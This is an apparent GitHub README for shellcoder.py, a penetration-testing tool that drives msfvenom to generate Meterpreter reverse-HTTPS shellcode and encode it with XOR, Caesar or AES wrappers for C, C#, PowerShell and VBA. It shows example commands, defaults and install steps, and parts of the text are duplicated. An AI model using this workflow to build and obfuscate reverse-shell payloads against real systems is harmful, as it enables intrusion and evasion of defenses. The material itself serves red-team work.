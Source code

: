 # shellcoder.py
A tool I wrote to ease the process of shellcode generation and obfuscation!

## Getting Started
This tool has some dependencies that may need to be installed. It was written and tested on Kali Linux 2021.4 so most of the dependencies are already pre-installed. In the event you are using an older version or non-Kali install, you can get started by running the following commands:
```bash
sudo python3 -m pip install -r requirements.txt
```
This tool is depenedent on msfvenom to generate raw shellcode files. If the Metasploit Framework is not installed on your system, here are the commands you will need to run to install it:
```bash
wget http://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run
```
```bash
sudo chmod +x ./metasploit-latest-linux-x64-installer.run
```
```bash
sudo ./metasploit-latest-linux-x64-installer.run
```
# shellcoder.py
A tool I wrote to ease the process of shellcode generation and obfuscation!

## Getting Started
This tool has some dependencies that may need to be installed. It was written and tested on Kali Linux 2021.4 so most of the dependencies are already pre-installed. In the event you are using an older version or non-Kali install, you can get started by running the following commands:
```bash
sudo python3 -m pip install -r requirements.txt
```
This tool is depenedent on msfvenom to generate raw shellcode files. If the Metasploit Framework is not installed on your system, here are the commands you will need to run to install it:
```bash
wget http://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run
```
```bash
sudo chmod +x ./metasploit-latest-linux-x64-installer.run
```
```bash
sudo ./metasploit-latest-linux-x64-installer.run
```
## Generating shellcode
One of the main reasons I developed this tool was to automate the process of generating shellcode for both Windows and Linux using msfvenom. To generate shellcode you can run shellcoder.py with the -l flag to set the listening host, the -p flag to set the listening port, the -t flag to set the payload type, and most importantly the -g or --generate flag. Alternatively, you can can just run shellcoder.py with the -g or --generate flag and it will use the following default values:

- PAYLOAD=windows/x64/meterpreter/reverse_https
- LHOST=tun0
- LPORT=443
- OUTFILE=/tmp/raw_sc

Some example commands that can be used to generate shellcode with shellcoder.py are as follows:
```bash
python3 shellcoder.py -l tun0 -p 443 -t windows/x64/meterpreter/reverse_https -o raw_sc --generate
```

<p align="center">
<a href="/img/gen1.png"><img src="/img/gen1.png"></a>
 </p>
 
```bash
python3 shellcoder.py --generate
```

<p align="center">
<a href="/img/gen2.png"><img src="/img/gen2.png"></a>
 </p>

 ## Encoding shellcode
 There are a couple options to can use to encode shellcode in different formats. Here is a list of formats the shellcode can be encoded with:

- clang_aes
- clang_caesar
- clang_xor
- csharp_aes
- csharp_caesar
- csharp_xor
- ps1_aes
- ps1_caesar
- ps1_xor
- vba_aes
- vba_caesar
- vba_xor

To generate shellcode with shellcoder.py, you can supply the -e flag with the encoder type. Optionally you can specify the input and output files with the -i and -o flags, respectively. If you do not specify an input file, shellcoder.py will look for the raw shellcode file located at /tmp/raw_sc. Here are some example commands that can be used to encode your shellcode:
```bash
python3 shellcoder.py -e chsarp_xor -i raw_sc -o enc_sc.txt
```

<p align="center">
<a href="/img/enc1.png"><img src="/img/enc2.png"></a>
 </p>
 
 ```bash
python3 shellcoder.py -e csharp_xor -i raw_sc
 ```
 
 <p align="center">
<a href="/img/enc2.png"><img src="/img/enc2.png"></a>
 </p>
 
 ```bash
python3 shellcoder.py -e csharp_xor
 ```

 These are just a few examples of how raw shellcode files can be encoded. You can see the help page for more options with the following command:
```bash
python3 shellcoder.py -h
```
